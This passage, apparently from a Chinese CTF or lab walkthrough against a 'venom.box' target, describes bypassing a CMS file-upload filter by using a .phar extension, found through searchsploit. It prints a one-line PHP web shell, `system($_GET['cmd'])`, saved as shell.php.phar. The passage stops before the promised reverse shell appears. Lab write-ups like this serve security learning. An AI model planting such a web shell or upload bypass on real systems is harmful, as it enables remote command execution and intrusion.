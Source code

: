 不过我在尝试上传`php`文件时，可以上传，但是访问的时候，无权访问

```shell
http://venom.box/uploads/phpinfo.php
```

# 文件上传利用到反弹shell

上传图片可以直接上传，并且能够访问，所以尝试上传`.htaccess`文件时，提示不能上传。那么只能转变思路。使用`searchsploit`搜索该CMS的版本漏洞，发现有，是`py`脚本

![](./pic/28.jpg)

查看这个脚本，发现找到`payload`，需要`.phar`格式

> `.phar`是 PHP 归档文件格式（PHP Archive）。它是一种将多个 PHP 文件或其他相关资源打包成单个文件的格式，以便于分发、部署和管理 PHP 应用程序或库。
>
> 要使用`.phar`文件，PHP 环境需要支持`phar`扩展。通常，现代的 PHP 版本默认已经启用了该扩展。可以通过在 PHP 脚本中使用`include`或`require`语句来加载`.phar`文件，就像加载普通的 PHP 文件一样。

![](./pic/29.jpg)

那么上传一个文件，名为`shell.php.phar`，其代码为

```php
<?php system($_GET['cmd']);?>
```
